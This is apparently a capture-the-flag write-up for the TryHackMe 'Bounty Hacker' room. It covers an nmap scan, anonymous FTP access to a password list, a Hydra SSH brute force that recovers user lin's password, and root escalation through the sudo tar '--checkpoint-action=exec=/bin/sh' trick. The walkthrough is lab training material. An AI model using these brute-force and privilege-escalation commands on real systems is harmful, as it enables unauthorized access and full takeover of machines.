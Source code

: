 <p align="center">
  THM : Bounty Hacker<br>
  Difficulty : Easy<br>
  <img src="https://i.imgur.com/VnkgDn8.jpg">
</p>

## Summary

- [Nmap scan](#nmap-scan)
- [FTP enumeration](#ftp-enumeration)
- [SSH bruteforce](#ssh-bruteforce)
- [Conclusion](#conclusion)

## Nmap scan

Let's run an agressive [nmap](https://nmap.org/) scan against the target :  
```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-21 17:51 CEST
Nmap scan report for 10.10.198.38
Host is up (0.063s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.32.60
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.93 seconds
```

- FTP port is open and anonymous login is enabled (port 21)
- SSH port is open (port 22)
- A webserver is running on the target (port 80)

## FTP enumeration

Let's log in to the FTP service as anonymous and see what files we can get :  
```
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ ftp 10.10.198.38
Connected to 10.10.198.38.
220 (vsFTPd 3.0.3)
Name (10.10.198.38:attacker): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

Let's get those files and see what's inside :  
```
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

We have a possible username "lin". The file locks.txt seems to be a password list.

**Question : Who wrote the task list ?**  
**Answer : lin**  

## SSH bruteforce

Since we have a username "lin" and a password list, we can try to brute force some services on the target. Let's try with SSH first using [Hydra](https://github.com/vanhauser-thc/thc-hydra) :  
```
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ hydra -l lin -P locks.txt 10.10.198.38 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-21 18:04:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.198.38:22/
[22][ssh] host: 10.10.198.38   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-10-21 18:04:56
```

We successfully brute forced lin's SSH password.

**Question : What service can you bruteforce with the text file found ?**  
**Answer : SSH**

**Question : What is the users password ?**  
**Answer : RedDr4gonSynd1cat3**

Now let's login to SSH using the credentials we found :  
```
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ ssh lin@10.10.198.38
The authenticity of host '10.10.198.38 (10.10.198.38)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.198.38' (ECDSA) to the list of known hosts.
lin@10.10.198.38's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$
```

Let's get the user flag :  
```
lin@bountyhacker:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 lin lin 4096 Jun  7  2020 .
drwxr-xr-x 19 lin lin 4096 Jun  7  2020 ..
-rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{*******************}
```

## Privilege escalation

It's time to escalate our privileges. Let's take a look at our sudo rights :  
```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

We can run tar as root. We can search for "tar" on [GTFOBins](https://gtfobins.github.io/) :  
![](https://i.imgur.com/AS8xbPU.jpg)  

Let's use this exploit and get a root shell :  
```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```

We are root ! Let's get the root flag :  
```
# cd /root
# ls -la
total 40
drwx------  5 root root 4096 Jun  7  2020 .
drwxr-xr-x 24 root root 4096 Jun  6  2020 ..
-rw-------  1 root root 2694 Jun  7  2020 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Feb 26  2019 .cache
drwxr-xr-x  2 root root 4096 Jun  7  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7  2020 root.txt
-rw-r--r--  1 root root   66 Jun  7  2020 .selected_editor
drwx------  2 root root 4096 Jun  7  2020 .ssh
# cat root.txt
THM{**************}
#
```

## Conclusion

This CTF was very easy and simple. I think it is a very good CTF for very beginners. Thanks for this room and thanks for reading my write ups !
